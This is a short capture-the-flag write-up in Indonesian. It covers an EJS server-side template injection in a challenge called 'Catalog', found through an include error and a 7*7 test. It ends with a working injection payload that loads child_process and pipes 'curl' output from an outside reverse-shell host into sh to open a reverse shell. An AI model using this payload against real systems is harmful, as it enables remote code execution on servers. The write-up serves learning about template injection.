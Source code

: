 # Catalog (easy)

## ejs server side template injection


diberikan halaman index bertulisan "Welcome to templating using EJS", terdapat juga nav link "Upload your cat!" dan "Flag". link flag hanya memberikan 403 Forbidden, lalu saya coba untuk upload sebuah gambar dan juga harus mengisi notes.
Jika file terupload maka akan redirect ke host/cat/<id>
```html
<p>Found. Redirecting to <a href="cat/93722f7774449ad03306fceb68c9c439">cat/93722f7774449ad03306fceb68c9c439</a></p>
```

lalu saya coba untuk input id dengan random string pada /cat/<id>
https://catalog.mctf.ru/cat/randomstring, mendapati error

```html
Error: /app/views/cat.ejs:21
    19|         </div>
    20|         <div>
 >> 21|             <%- include('descriptions/' + description) %>
    22|         </div>
    23|     </div>
    24| </main>

Could not find the include file "descriptions/asd"
    at getIncludePath (/app/node_modules/ejs/lib/ejs.js:185:13)
    at includeFile (/app/node_modules/ejs/lib/ejs.js:311:19)
    at include (/app/node_modules/ejs/lib/ejs.js:701:16)
    at eval ("/app/views/cat.ejs":24:17)
    at cat (/app/node_modules/ejs/lib/ejs.js:703:17)
    at tryHandleCache (/app/node_modules/ejs/lib/ejs.js:274:36)
    at exports.renderFile [as engine] (/app/node_modules/ejs/lib/ejs.js:491:10)
    at View.render (/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/app/node_modules/express/lib/application.js:657:10)
    at Function.render (/app/node_modules/express/lib/application.js:609:3)
```

mengetahui ejs menggunakan <%- %>, saya coba untuk perkalian untuk test ssti `<%= 7*7 %>` dan itu berhasil menjadi 49.

langsung saja reverse shell 
```javascript
<%= function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl https://reverse-shell.sh/0.tcp.ap.ngrok.io:13282 | sh')}() %>
```
